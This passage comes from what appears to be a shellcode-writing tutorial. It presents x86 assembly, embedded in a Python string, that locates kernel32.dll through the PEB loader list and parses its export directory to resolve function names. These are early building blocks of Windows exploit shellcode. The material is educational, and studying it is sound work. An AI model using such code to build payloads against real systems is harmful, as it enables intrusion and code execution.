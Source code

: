 ### Back to the Assembly

Remember that the Export Directory Table structure fields contain relative addresses. To obtain the virtual memory address, our shellcode will often add the kernel32.dll base address to the RVA.

We have the following code:

```py
CODE = (
  "start:                                  "
  "   mov ebp, esp                        ;"
  "   sub esp, 0x200                      ;"
  "   call find_kernel32                  ;"
  "   call find_function                  ;"

  "find_kernel32:                          "
  "   xor ecx, ecx                        ;"  #   ECX = 0
  "   mov esi, fs:[ecx+0x30]              ;"  #   ESI = &(PEB)
  "   mov esi, [esi+0x0C]                 ;"  #   ESI = PEB->Ldr
  "   mov esi, [esi+0x1C]                 ;"  #   ESI = PEB->Ldr.InInitOrder

  "next_module:                            "
  "   mov ebx, [esi+0x8]                  ;"  #   EBX = InInitOrder[x].base_address
  "   mov edi, [esi+0x20]                 ;"  #   EDI = InInitOrder[x].module_name
  "   mov esi, [esi]                      ;"  #   ESI = InInitOrder[x].flink
  "   cmp [edi+12*2], cx                  ;"  #   module_name[12] == 0x00 ?
  "   jne next_module                     ;"  #   jump to the next module
  "   ret                                 ;"

  "find_function:                          "
  "   pushad                              ;"  #   Save all registers
  "   mov eax, [ebx+0x3c]                 ;"  #   Offset to PE Signature
  "   mov edi, [ebx+eax+0x78]             ;"  #   Export Table Directory RVA
  "   add edi, ebx                        ;"  #   Export Table Directory VMA
  "   mov ecx, [edi+0x18]                 ;"  #   NumberOfNames
  "   mov eax, [edi+0x20]                 ;"  #   AddressOfNames RVA
  "   add eax, ebx                        ;"  #   AddressOfNames VMA
  "   mov [ebp-4], eax                    ;"  #   Save AddressOfNames VMA

  "find_function_loop:                     "
  "   jecxz find_function_finished        ;"  #   jump if ECX == 0
  "   dec ecx                             ;"  #   Decrement names counter
  "   mov eax, [ebp-4]                    ;"  #   Restore AddressOfNames VMA
  "   mov esi, [eax+ecx*4]                ;"  #   RVA of the symbol name
  "   add esi, ebx                        ;"  #   ESI = (VMA of the current symbol name)

  "find_function_finished:                 "
  "   popad                               ;"  #   Restore registers
)
```

Now we have to parse the symbol names using a hashing algorithm to search for this symbol in the array.
